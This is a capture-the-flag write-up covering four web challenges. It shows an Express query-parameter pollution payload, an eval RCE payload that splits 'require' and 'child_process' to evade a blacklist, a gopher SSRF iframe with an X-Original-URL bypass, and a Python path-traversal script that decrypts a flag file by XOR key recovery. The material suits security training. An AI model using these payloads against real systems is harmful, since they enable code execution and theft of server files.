##  Web Exploitation

### Dz-Kitab


This challenge presents us with a simple interface


Noticing that, the Book#1 is missing, let's check that Book's id:


It looks very suspicious, maybe this book contains the flag. So now, let think a way to bypass this. 

The `X-Powered-By` header indicates that the backend using `Express`



We are going to fingerprint the ExpressJS version by passing it some rich objects and looking at the server's behaviours.



➜ Now we know that this is Express 3.x/4.x, because Express 5.x does not support (or only minimally supports) rich object. The query strings such as `id[]=1`, `?filter[name]=x` may no longer be parsed into arrays or nested objects.

So this is the payload that I constructed:

```
/book?id[0]=2&id[1][]=1
```

It will be parsed as:
```js
req.query=
{
  id: ["2",["1"]]
}
```
So this will eventually bypass the assumed condition like `if (req.query.id == 1)` because ["1"] ≠ 1



*`nexus{f4t_g3t++http_p4r4m3t3r_p0lut10n}`*

### Calculator



The site presents us with a normal calculator that works properly.


When I use a bracket, the site triggers an alert and blocks me immediately.


Let's take a look at the JavaScript exposed in the frontend: 

```javascript
  const expr = output.value;

  const blocked = /['"\[\]\{\}]/;

  if (blocked.test(expr)) {
    alert("Blocked characters detected!");
    return;
  }
```
This shows that the website validates the input directly in the browser before the request is sent, which can be trivially bypassed using Burp. 

In order to exploit this SSTI vulnerability, I attempted some JavaScript RCE payloads. However, the server responded with an error message indicating that it blacklists some "dangerous" keywords, including `process`, `Function`, `require`, `constructor`, `global`, etc. 


I can firmly confirm that the server was likely using `eval()` to process input, however, it blacklist some keywords. In order to bypass the blacklist, we can use the `concatenation technique`. Because the server only looks for the exact sequence string of keywork such as `"global"`, we can use payload like `"glo"+"bal"`. Knowing that, I constructed an exploit payload like this:

```javascript
{"expr": "module['req'+'uire']('child_pro'+'cess').execSync('id').toString()"}
```


And finally, I got the flag:



*`nexus{7h1s_1s_no7_3v4l_Th1s_15_3v1lllllllllllllllllll}`*


### gofrita


This challenge presents us a report form that we can submit and view it.


#### Challenge Overview

It has XSS, but in the challenge they state that this challenge is not about XSS. So we don't mind about XSS stuff. I have fuzzed some LFI , SSTI payloads but nothing really happens. And then I got a hint from the author that this chall is about SSRF and `gopher` protocol.
 
So my initial payload with `gopher` is:

```html
<iframe src="gopher://127.0.0.1:3333/_GET%20/flag.txt%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0A%0D%0A">
```


This payload failed and got access denied (403), the `/flag.txt` was forbidden. So I intentionally add `X-Original-Url` header to bypass the perms here.

Here is the final payload:
```html
<iframe src="gopher://127.0.0.1:3333/_GET%20/%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AX-Original-URL%3A%20/flag.txt%0D%0A%0D%0A"></iframe>
```
The clean decoded format:
```html
<iframe src="gopher://127.0.0.1:3333/_GET / HTTP/1.1\r\n
Host: 127.0.0.1\r\n
X-Original-URL: /flag.txt\r\n
\r\n
"></iframe>
```

And we got the flag




### Secure Storage



This challenge was written in Go. Before diving into the source code, let's explore the web application's behaviours and features.

Every user is assigned with a `sid` cookie and shows a per-session temp folder. You can upload one or more files via the form; they appear in a list with download links. 


Downloading any listed file sends back the original content, even though the server stores it “encrypted.” 



Okay let's examine the source code provided.


`processFile()` handles every upload end-to-end, sanitizes the filename, ensures the per-session directory exists, and then writes the file while calling `xorCopy(out, in, key)`, which XORs each byte with the session’s 64-byte key before storing it, so everything under `/tmp/storage_<sid>` is just plaintext ⊕ key.

```go collapse={2-1000}
func (s *Server) processFile(dir string, key []byte, fh *multipart.FileHeader) error {
	in, err := fh.Open()
	if err != nil {
		return fmt.Errorf("open: %w", err)
	}
	defer in.Close()

	safeName := sanitizeFilename(fh.Filename)
	if safeName == "" {
		return errors.New("invalid filename")
	}

	if err := os.MkdirAll(dir, 0o700); err != nil {
		return fmt.Errorf("mkdir: %w", err)
	}

	outPath := filepath.Join(dir, safeName)
	out, err := os.OpenFile(outPath, os.O_CREATE|os.O_WRONLY|os.O_TRUNC, 0o600)
	if err != nil {
		return fmt.Errorf("create: %w", err)
	}
	defer out.Close()

	err = xorCopy(out, in, key)
	if err != nil {
		return fmt.Errorf("xor copy: %w", err)
	}

	return nil
}
```

`xorCopy()` is the single routine that handles both encryption and decryption. It just XORs each byte with the session’s 64-byte key, looping the keystream as needed:

```go collapse={2-1000}
func xorCopy(dst io.Writer, src io.Reader, key []byte) error {
    buf := make([]byte, 32*1024)
    var off int
    for {
        n, err := src.Read(buf)
        if n > 0 {
            for i := 0; i < n; i++ {
                buf[i] ^= key[(off+i)%len(key)]
            }
            if _, werr := dst.Write(buf[:n]); werr != nil {
                return werr
            }
            off += n
        }
        if err != nil {
            if errors.Is(err, io.EOF) {
                return nil
            }
            return err
        }
    }
}
```

Sessions (SID, storage dir, XOR key) are all created in `ensureSession()`. If the SID isn’t in SQLite yet, it calls `os.MkdirTemp("", "storage_")` for a new `/tmp/storage_id` and fills the DB row with a `sid`, that `path` and also a `64 random bytes key`:

```go collapse={2-1000}

func (s *Server) ensureSession(sessionID string) (*Session, error) {
    row := s.db.QueryRow(`SELECT dir, key FROM sessions WHERE session_id = ?`, sessionID)

    var dir string
    var key []byte
    err := row.Scan(&dir, &key)
    if errors.Is(err, sql.ErrNoRows) {
        dir, key, err = s.createSession(sessionID)
    }
    if err != nil {
        return nil, err
    }
    return &Session{ID: sessionID, Dir: dir, Key: key}, nil
}

```


`handleDownload()` does not sanitize or validate the untrusted data from user input in this case which is `fileName := r.PathValue("file")`, joins it with the session dir, and immediately opens the resulting path. Leading to a traversal path vulnerability(LFI) in this function.

``` go collapse={2-1000}

func (s *Server) handleDownload(w http.ResponseWriter, r *http.Request) {
    dir, key, err := s.getOrCreateSession(w, r)
    
    fileName := r.PathValue("file")
    filePath := path.Join(sess.Dir, fileName)

    f, err := os.Open(filePath)
    if err != nil {
        http.Error(w, err.Error(), http.StatusNotFound)
        return
    }
    defer f.Close()

    if err := xorCopy(w, f, sess.Key); err != nil {
        http.Error(w, err.Error(), http.StatusInternalServerError)
    }
}
```

### Exploitation

The bug is straightforward: uploaded files are stored as `ciphertext = plaintext ⊕ keystream`, and downloads always run the same XOR routine before sending bytes out. The download handler, however, trusts the raw path component from the URL and uses `path.Join(sessionDir, userInput)` with no checks. By performing path traversal you can escape the session directory to open arbitrary files on disk — the server will still XOR the bytes with the session key and return them. We can XOR again a known file that we uploaded or static file of the web (/app/logo.png). Then we can recover the key stream and use that key to decrypt the flag.

Because the challenge frontend sits behind multiple backends, we must perform the upload, known‑file fetch and flag fetch within the same session.

Here is the Python script that handles the automation:

```python title="solve.py"
import os,re,sys,requests
from pathlib import Path
from typing import Tuple


BASE_URL = os.environ.get("SECURE_STORAGE_URL", "http://ctf.nexus-security.club:6213")
LOGO_PATH = Path("challenge/logo.png")
FLAG_PATH = "%2e%2e%2f%2e%2e%2fflag.txt"
REMOTE_LOGO_PATH = "%2e%2e%2f%2e%2e%2fapp%2flogo.png"


def derive_key(logo_plain: bytes, logo_enc: bytes) -> bytes:
    if len(logo_plain) != len(logo_enc):
        raise ValueError(
            f"logo length mismatch: plain={len(logo_plain)} enc={len(logo_enc)}"
        )
    return bytes(p ^ c for p, c in zip(logo_plain, logo_enc))[:64]


def xor_decrypt(data: bytes, key: bytes) -> bytes:
    return bytes(b ^ key[i % len(key)] for i, b in enumerate(data))


def run_once(session: requests.Session, logo_plain: bytes) -> Tuple[str, bytes]:
    
    # attemp GET to get the cookies for those next reqs
    resp = session.get(BASE_URL, timeout=10)
    resp.raise_for_status()
    storage_match = re.search(r"/tmp/storage_\d+", resp.text)
    storage_dir = storage_match.group(0) if storage_match else "<unknown>"


    # upload the file
    files = {"file": ("logo.png", logo_plain, "image/png")}
    session.post(f"{BASE_URL}/upload", files=files, timeout=10).raise_for_status()

    # download the file outside of the expected area so that it got XOR-encrypted
    logo_enc = session.get(
        f"{BASE_URL}/download/{REMOTE_LOGO_PATH}", timeout=10
    ).content
    key = derive_key(logo_plain, logo_enc)

    flag_enc = session.get(
        f"{BASE_URL}/download/{FLAG_PATH}", timeout=10
    ).content
    flag_plain = xor_decrypt(flag_enc, key)
    return storage_dir, flag_plain


def main() -> None:
    logo_plain = LOGO_PATH.read_bytes()
    attempts = int(os.environ.get("SECURE_STORAGE_ATTEMPTS", "5"))

    for attempt in range(1, attempts + 1):
        with requests.Session() as session:
            try:
                storage_dir, flag = run_once(session, logo_plain)
            except Exception as exc:  
                print(f"[!] attempt {attempt}: failed ({exc})")
                continue

        decoded = flag.decode(errors="replace")
        print(f"[*] attempt {attempt}: storage {storage_dir}")
        print(f"[*] key+flag result: {decoded}()")
        if "{" in decoded:
            print("[+] success")
            return

    print("[-] all attempts failed", file=sys.stderr)
    sys.exit(1)

if __name__ == "__main__":
    main()

```
Here is the flag



*`nexus{l34k_7h3_k3y_br34k_7h3_c1ph3r}`*

## Wrap-Up

Those challenges were fun, although some of them were a bit guessy (imo). I learned a lot during the competition.

Peace out and stay safe <3

